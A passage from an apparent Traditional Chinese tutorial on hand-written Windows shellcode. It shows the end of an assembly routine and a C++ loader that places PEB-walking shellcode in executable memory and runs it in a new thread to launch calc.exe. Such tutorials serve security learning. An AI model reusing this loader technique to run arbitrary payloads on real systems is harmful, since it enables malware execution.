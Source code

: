 ```=
    add esp, 44h

.end:
    pop ebp
    pop edi
    pop esi
    pop edx
    pop ecx
    pop ebx
    pop eax
    ret
```

另外我寫了簡單的 Shellcode Loader，程式不難，但因為不是這篇的重點所以先略過。
```cpp=
#include <windows.h>

int main()
{
	char shellcode[] = "\x50\x53\x51\x52\x56\x57\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x64\x8B\x1D\x30\x00\x00\x00\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x24\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x44\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3";
							
	// 分配記憶體，其中權限是 PAGE_EXECUTE_READWRITE
	LPVOID addressPointer = VirtualAlloc(NULL, sizeof(shellcode), 0x3000, 0x40);
	
	// 把 shellcode 寫入分配的記憶體
	RtlMoveMemory(addressPointer, shellcode, sizeof(shellcode));
	
	// 建立 Thread 執行 shellcode
	CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)addressPointer, NULL, 0, 0);

	Sleep(1000);
	return 0;
}
```

## 實際測試
跟上一篇一樣使用 NASM + LazyIDA 把 Shellcode 複製後放到 Shellcode Loader 中執行，成功編譯並執行就會跳出一個小算盤。

## 參考資料
* [Basics of Windows shellcode writing](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html#resources)
* [Windows x64 Shellcode](https://mcdcyber.wordpress.com/2011/01/11/windows-x64-shellcode/)
* [A Beginner’s Guide to Windows Shellcode Execution Techniques](https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
* [Calling Convention](https://en.wikipedia.org/wiki/X86_calling_conventions)
